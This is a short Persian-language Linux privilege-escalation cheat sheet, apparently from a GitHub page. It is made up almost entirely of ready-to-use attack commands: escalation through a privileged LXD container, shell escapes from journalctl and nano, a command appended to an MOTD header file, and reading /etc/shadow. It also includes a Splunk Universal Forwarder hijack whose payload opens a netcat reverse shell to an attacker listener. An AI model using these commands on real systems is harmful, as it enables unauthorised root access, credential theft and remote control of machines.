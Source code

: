 
### افزایش دسترسی با lxd

```text
in attacker host
1. git clone https://github.com/saghul/lxd-alpine-builder.git
2. ./build-alpine
in victim host
3. download builded image 
4. import ./alpine-v3.12-x86_64-20200621_2005.tar.gz --alias attacker
5. lxc init attacker tester -c security.privileged=true
6. lxc exec tester/bin/sh
```

### افزایش دسترسی در journalctl 

اجرا کننده journalctl باید با دسترسی بیشتری مانند sudo اجرا شده باشد.

```text
journalctl
!/bin/sh
```

یا

```text
sudo journalctl
!/bin/sh
```

### ارتقا دسترسی با Splunk Universal Forward Hijacking

```text
python PySplunkWhisperer2_remote.py --lhost 10.10.10.5 --host 10.10.15.20 --username admin --password admin --payload '/bin/bash -c "rm /tmp/luci11;mkfifo /tmp/luci11;cat /tmp/luci11|/bin/sh -i 2>&1|nc 10.10.10.5 5555 >/tmp/luci11"'

```

### افزایش دسترسی با فایل 00-header

```text
echo “id” >> 00-header
```

### افزایش دسترسی در nano

```text
Ctrl+R + Ctrl+X
reset; sh 1>&0 2>&0
```

یا

```text
Ctrl+W
/etc/shadow
```
